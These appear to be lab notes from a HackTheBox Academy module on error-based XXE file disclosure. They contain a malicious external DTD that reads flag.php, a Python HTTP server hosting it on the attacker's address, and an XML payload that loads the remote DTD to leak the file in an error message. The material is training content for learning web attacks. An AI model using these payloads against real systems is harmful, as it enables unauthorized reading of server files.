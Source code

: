 ![Burp Suite - POST Error Submit Details](./assets/screenshots/web_attacks_advanced_file_disclosure_burpsuite_post_error_submit_details.png)

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ vim error_xxe.dtd

<!ENTITY % file SYSTEM "file://flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

```
┌─[eu-academy-1]─[10.10.15.155]─[htb-ac-1461567@htb-lbskapzopa]─[~]
└──╼ [★]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.155:8000/error_xxe.dtd">
  %remote;
  %error;
]>

[SNIP]

<email>&error;</email>

[SNIP]
```
